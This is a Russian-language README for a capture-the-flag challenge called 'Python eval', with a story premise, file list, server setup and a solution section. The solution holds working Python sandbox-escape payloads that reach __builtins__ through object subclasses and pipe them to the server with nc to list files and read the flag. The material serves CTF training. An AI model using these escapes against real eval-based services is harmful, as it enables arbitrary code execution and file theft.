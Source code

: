 Python eval
===========
> К сожалению, кто-то сумел расшифровать тайное послание от Боба, из-за чего он лишился работы и, как мы подозреваем, стал работать на тайную организацию, целью которой является захват мира.  
> У Боба есть одна небольшая слабость — любовь к Python'у. Говорят, он даже написал свой сервер (ссылка на исходник), чтобы удаленно писать код.  
> Говорят, на его компьютере лежат планы захвата мира. Заполучите их!  

Файлы
-----
1. **eval.py** - Псевдо исходный код, который доступен участникам
2. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
3. **blacklist.txt** - Файл с запрещенными словами
4. **server.py** - Исходный код

Запуск
------
Необходимо создать пользователя с правами только на чтение файла с флагом.  
Файл с сервером, жалетельно, положить отдельно от файла с флагом, и запускать его, из папки с флагом.  
```
python3 server.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Адрес хоста, по умолчанию - socket.gethostbyname(socket.gethostname())  
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

Решение
-------
1. Научиться получать доступ к \__builtins__  
    ```
    [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
    ```
2. Получить список файлов в папке  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').listdir()" | nc адрес порт
    ```
3. Прочесть флаг  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('имя файла с флагом').read()" | nc адрес порт
    ```

---

[Описание проблемы](https://habrahabr.ru/post/221937/)  
[Источник](https://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals#thing_t1_c1v372r)  
[Еще полезная ссылочка](http://www.floyd.ch/?p=584)
